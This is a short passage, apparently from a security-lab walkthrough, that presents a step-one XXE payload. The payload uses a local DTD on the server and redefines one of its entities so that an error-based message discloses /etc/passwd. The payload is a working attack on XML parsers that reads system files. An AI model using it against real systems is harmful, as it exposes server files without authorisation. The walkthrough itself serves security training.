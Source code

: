 And the lab is solved

<img src="images/image35.png" alt="third" width="500">

**Step1**

Use this payload to solve this lab

```
<!DOCTYPE foo [

<!ENTITY % local_dtd SYSTEM "[file:///usr/share/yelp/dtd/docbookx.dtd](file://usr/share/yelp/dtd/docbookx.dtd)">

<!ENTITY % ISOamso '

<!ENTITY &#x25; file SYSTEM "[file:///etc/passwd](file://etc/passwd)">

<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">

&#x25;eval;

&#x25;error;

'>

%local_dtd;

]>
```